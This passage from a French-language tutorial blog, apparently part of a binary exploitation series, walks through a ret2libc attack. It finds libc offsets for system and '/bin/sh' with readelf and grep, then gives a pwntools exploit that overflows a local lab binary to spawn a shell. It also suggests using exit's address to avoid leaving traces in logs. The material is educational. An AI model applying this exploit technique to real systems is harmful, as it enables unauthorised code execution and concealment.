  * Etape 2 :

 readelf, qui nous permet d'analyser le contenu de la libc, qui est un ELF, mais aussi une librairie partagée. Option -a pour lire tout le contenu, et mettre à l'aide d'un pipe " | " toute les lignes analysées dans grep, qui va rechercher les lignes contenant le mot system. On récupère celle qui nous intéresse : 0x0003c7d0, donc l'offset de system dans la libc.

 * Etape 3 :

 On cherche "/bin/sh" dans la libc. -b pour avoir l'offset en byte, -o pour n'avoir que le mot recherché et non la ligne, et -a pour activer l'analyse en mode binaire. On obtient donc en décimal l'offset de "/bin/sh" dans la libc.

 * Etape 4 :

 Un coup de python pour avoir la somme de l'offset de la libc et de ce qui nous intéresse, et BIM, on a tout. Un peu plus long, mais pour des exploits plus compliqués, cette manière de faire est à privilégier, croyez-moi ! :')

<img class="img_med" src="/hacking/pwn_2of4_ret2libc/mind_blown.gif" alt="mind_blown" >

On a donc récupéré les adresses de system et de "/bin/sh" pour faire exécuter un shell. Nickel ! :D

Maintenant qu'on a tout ce qu'il nous faut, on écrit notre exploit :

```python
#!/usr/bin/en python2

from pwn import *

offset = 268
payload = "A" * offset
payload += p32(0xf7dfa7d0) # @system
payload += p32(0x42424242) # @retour - foo
payload += p32(0xf7f3688a) # @"/bin/bash\x00"

r = process(["./vuln", payload])
r.interactive()
```

Remarque :

Ici, j'ai mis 0x42424242 car la valeur ne nous importe peu, où se rend le programme en sortant de la fonction attaquée, ici ca n'a pas d'importance. Mais si vous voulez éviter que le programme crash une dois que vous fermez votre shell, il est possible de mettre à cet emplacement l'adresse de la fonction exit, qui fermera proprement le programme, ne laissant ainsi pas de trace dans les logs... ;)

Ici, une fois le shell fermé, le programme sautera à l'adresse 0x4242424 et mourra d'un douloureux segfault... Sauvez des vies, placez des exit... Ou pas.

Puis on le lance :

<img class="img_full" src="/hacking/pwn_2of4_ret2libc/run_exploit.png" alt="run_exploit" >

Et BIM, on pop notre shell via un ret2libc bien basique !

<img class="img_med" src="/hacking/pwn_2of4_ret2libc/like_a_boss.jpg" alt="like_a_boss" >
